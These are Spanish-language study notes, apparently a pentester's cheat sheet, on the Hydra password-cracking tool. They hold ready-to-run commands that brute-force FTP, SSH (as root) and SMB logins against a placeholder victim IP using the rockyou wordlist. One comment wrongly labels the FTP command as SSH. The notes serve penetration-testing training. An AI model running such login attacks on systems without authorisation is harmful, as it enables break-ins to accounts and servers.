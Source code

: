 # Hydra ❮❯

Es una herramienta de prueba de penetracion que se utiliza para realizar ataques de fuerza bruta, por asi decirlo, en servicios de autenticacion remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques futivos. 

- Soporte de multiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticacion incluyendo: SSH, Telnte, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operacion flexibles: Hydra admite diferentes modos de operacion, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque hibrido.
* Capacidad de parelelizacion: Hydra es capas de realizar multiples intentos de autenticacion simultaneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de pentracion 
	- Audiroria de passwd
	- Recuperacion de passwd


Hydra fuerza bruta FTP
```bash
❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# l (ele) -> usuario que en este caso es  'omar'
	# L -> Indicas un archivo que disponga de usuarios 
	# P -> Ruta del diccionario o 'archivo que contiene passwds'
	# t -> Lanzar tareas en paralelo al mismo tiempo
```

Hydra fuerza bruta SSH
```bash
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# ssh -> Puerto al que vamos a atacar 22
	# IP -> Direccion de la maquina victima
	# P -> Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) -> usuario que en este caso es  'root'
	# t -> Lanzar tareas en paralelo al mismo tiempo
	# V -> Verbosity
	# s -> Port y es el puerto al que nos queremos conectar 
```

Hydra fuerza bruta SMB
```bash 
❯ hydra -L user.list -P password.list smb://<IP>        # Para ver si esos usuarios y passwd son validos en un servidor SMB

	# L = Ruta o archivo que contiene los usuarios
	# P = Ruta o archivo que contiene las passwd
```